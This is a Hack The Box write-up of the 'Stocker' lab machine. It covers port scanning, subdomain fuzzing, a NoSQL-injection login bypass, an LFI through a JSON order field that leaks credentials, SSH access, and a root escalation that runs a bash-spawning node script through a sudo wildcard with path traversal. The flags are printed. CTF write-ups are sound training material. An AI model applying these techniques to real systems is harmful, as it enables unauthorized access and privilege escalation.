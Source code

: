```yaml
---
layout: single
title: Stocker - Hack The Box
excerpt: "Stocker is a quick and fun easy box where're goint to exploit a no sql inyection also we're goint to use burpsuite to intercept the request and change the content-type to json then there will be an lfi to obtain credentials when we gain access to the login of a subdomain found we can connect with ssh and to become root we will only have to create a .js file. ."
date: 2023-01-15
classes: wide
header:
  teaser: /assets/images/htb-writeup-stocker/logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - LFI
  - NoSqli
---
```

![](/assets/images/htb-writeup-stocker/logo.jpg)

Stocker is a quick and fun linux easy box where're goint to exploit a no sql inyection also we're goint to use burpsuite to intercept the request and change the content-type to json then there will be an lfi to obtain credentials when we gain access to the login of a subdomain found we can connect with ssh and to become root we will only have to create a .js file.

## Port Scan

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-15 11:24 CST
Nmap scan report for 10.129.131.145
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see a new subdomain of the machine stocker.htb add to your `/etc/hosts`

```
❯ /usr/bin/cat /etc/hosts | tail -n 1
10.129.131.145 stocker.htb 
```

It's working

```
❯ ping -c 1 stocker.htb
PING stocker.htb (10.129.131.145) 56(84) bytes of data.
64 bytes from stocker.htb (10.129.131.145): icmp_seq=1 ttl=63 time=180 ms

--- stocker.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 179.919/179.919/179.919/0.000 ms
```

These services are running

```
❯ whatweb http://stocker.htb
http://stocker.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.131.145], Meta-Author[Holger Koenemann], MetaGenerator[Eleventy v2.0.0], Script, Title[Stock - Coming Soon!], nginx[1.18.0]
```

This is the webpage

![/assets/images/htb-writeup-stocker/web1.png](/assets/images/htb-writeup-stocker/web1.png)

We can do fuzzing to discover other subdomains

```
❯ gobuster vhost -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 30 -u stocker.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      30
[+] Wordlist:     /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/15 11:32:20 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
```

Add to your `/etc/hosts`

```
❯ /usr/bin/cat /etc/hosts | tail -n 1
10.129.131.145 stocker.htb dev.stocker.htb
```

It's working too

```
❯ ping -c 1 dev.stocker.htb
PING stocker.htb (10.129.131.145) 56(84) bytes of data.
64 bytes from stocker.htb (10.129.131.145): icmp_seq=1 ttl=63 time=175 ms

--- stocker.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 174.753/174.753/174.753/0.000 ms
```

We found a login

```
❯ curl http://dev.stocker.htb
Found. Redirecting to /login
```

```
❯ whatweb http://dev.stocker.htb/login
http://dev.stocker.htb/login [200 OK] Bootstrap, Cookies[connect.sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[connect.sid], IP[10.129.131.145], Meta-Author[Mark Otto, Jacob Thornton, and Bootstrap contributors], MetaGenerator[Hugo 0.84.0], PasswordField[password], Script, Title[Stockers Sign-in], X-Powered-By[Express], nginx[1.18.0]
```

This is the webpage

![/assets/images/htb-writeup-stocker/web2.png](/assets/images/htb-writeup-stocker/web2.png)

if we look for default credentials of the services it runs they don't work

We're going to use burpsuite to intercept the login panel

![/assets/images/htb-writeup-stocker/burp.png](/assets/images/htb-writeup-stocker/burp.png)

I remember the login panel of Shoppy machine is vulnerable a sqli maybe this too because they have similarities

Ok after trying we can change the Content-Type to Json and do a no sql injection

- [https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

![/assets/images/htb-writeup-stocker/xd.png](/assets/images/htb-writeup-stocker/xd.png)

After to click on forward we can see a store

![/assets/images/htb-writeup-stocker/car.png](/assets/images/htb-writeup-stocker/car.png)

I going to add something to the Cart

![/assets/images/htb-writeup-stocker/xdd.png](/assets/images/htb-writeup-stocker/xdd.png)

If you click on Submit Purchase we have a link and a order id

![/assets/images/htb-writeup-stocker/id.png](/assets/images/htb-writeup-stocker/id.png)

The link to this way 

![/assets/images/htb-writeup-stocker/link.png](/assets/images/htb-writeup-stocker/link.png)

We can intercept the Submit Purchase with burpsuite

![/assets/images/htb-writeup-stocker/xdd.png](/assets/images/htb-writeup-stocker/xdd.png)

We see a json we can abuse of this to make a LFI

![/assets/images/htb-writeup-stocker/json.png](/assets/images/htb-writeup-stocker/json.png)

We can see a new order id the machine is taking it like a purchase

![/assets/images/htb-writeup-stocker/orderid.png](/assets/images/htb-writeup-stocker/orderid.png)

If we copy the id we can see the `/etc/passwd` of the machine and users 

![/assets/images/htb-writeup-stocker/lfi.png](/assets/images/htb-writeup-stocker/lfi.png)

We have a lfi and the page use js maybe we can see configuration files with credentials of the user `angoose`

![/assets/images/htb-writeup-stocker/cred.png](/assets/images/htb-writeup-stocker/cred.png)

If we do the same copy the id and search in the webpage we found credentials 

![/assets/images/htb-writeup-stocker/gg.png](/assets/images/htb-writeup-stocker/gg.png)

`IHeardPassphrasesArePrettySecure`

We can try to connect with ssh

```
❯ ssh angoose@10.129.131.145
The authenticity of host '10.129.131.145 (10.129.131.145)' can't be established.
ECDSA key fingerprint is SHA256:DX/9+PB1w20dghcXwm9QPFH88qM0aiPr+RyA+wzHnng.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.131.145' (ECDSA) to the list of known hosts.
angoose@10.129.131.145's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

angoose@stocker:~$
```

## User flag

```
angoose@stocker:~$ cat user.txt 
d12a44162b3b7fe2ef2c2e0830d8568a
angoose@stocker:~$ id
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
angoose@stocker:~$ hostname
stocker
angoose@stocker:~$
```

## Root

After enumerating we have a password so at sudoers level we can run a js with node as root user

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$ 
```

```
angoose@stocker:~$ cat pwn.js 
const fs = require("child_process").spawn("/usr/bin/bash", {stdio: [0, 1, 2]})
angoose@stocker:~$ 
```

```
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/pwn.js
root@stocker:/home/angoose# cd 
root@stocker:~# whoami
root
root@stocker:~# id
uid=0(root) gid=0(root) groups=0(root)
root@stocker:~# cat /root/root.txt
21ecb34b50ca39544323e071cefd0976
root@stocker:~# hostname
stocker
root@stocker:~# 
```






